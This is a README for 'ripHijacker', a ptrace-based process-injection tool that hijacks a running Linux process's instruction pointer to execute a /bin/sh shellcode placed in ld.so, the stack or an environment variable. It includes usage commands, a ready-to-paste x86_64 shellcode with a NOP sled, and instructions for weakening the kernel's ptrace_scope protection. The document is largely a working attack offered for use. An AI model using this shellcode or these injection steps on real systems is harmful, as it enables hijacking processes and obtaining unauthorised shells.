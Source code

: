 # ripHijacker

#DESCRIPTION:

- It allows you to inject an hardcoded "/bin/sh" shellcode into the executable segment /lib/x86_64-linux-gnu/ld-2.19.so of the target process and to overwrite its $rip register with the address of that segment.
- It allows you to inject an hardcoded "/bin/sh" shellcode into the stack of the target process and to overwrite its $rip register with the address pointed by its $rsp register.                       
- It allows you to overwrite the $rip register of the target process with the address of an environment variable located in the target's stack.

##SYNOPSIS: 
```bash
$./ripHijacker [OPTIONS]
```

##OPTIONS:
```
-p <target_pid>:        pid of the target process.
-z <0|1>:               if enabled (1), it overwrites the $rip register with an address of the target's stack.
-e <env_var>:           name of the environment variable on which the $rip register will point at.
-n <target_progr_name>: name of the target.
```
(-e and -n options must be used together and only if -z is enabled)

##EXAMPLES:

```bash
 $./ripHijacker -p 6666
 ```
 
 ```bash
 $./ripHijacker -p 6666 -z 1
 ````
 
 We can load a simple /bin/sh shellcode in an environment variable with the comand:
 ```bash
 
 export A=$(python -c "print '\x90' * 20 + '\xeb\x1f\x5f\x48\x31\xc0\x50\x48\x89\xe2\x57\x48\x89\xe6\x48\x83\xc0\x3b\x0f\x05\x48\x31\xff\x48\x83\xc0\x7f\x48\x83\xc0\x2d\x0f\x05\xe8\xdc\xff\xff\xff\x2f\x62\x69\x6e\x2f\x73\x68'")
 ```
 
Now we can use -e and -n options:

 ```bash
 $./ripHijacker -p 6666 -z 1 -e A -n target_name
```

##NOTES:
ripHijacker uses ptrace. 
```
"A PTRACE scope of "0" is the more permissive mode.  A scope of "1" limits
PTRACE only to direct child processes.."
```
So we can change scope of ptrace with these commands:
```bash
$sudo vim  /etc/sysctl.d/10-ptrace.conf
```
..and setting.. 
```bash
kernel.yama.ptrace_scope = 0
```
..after that we must load the new settings with:
```bash
$sudo sysctl --system -a -p | grep  yama
```

Obviously, to use '-z 1' option the target program must be compiled with the "-z execstack" option and to use -e and -n options the environment variable must be loaded before the program target execution.

##AKNOWLEDGEMENT:

Vorrei ringraziare Fabio Blacklight ed il suo vecchio ma geniale programma meminj.c che mi ha permesso di venire a 
conoscenza dell'utilità di ptrace ed anche Crossbower che mi ha dato l'idea su come effettuare l'attacco ld_inj




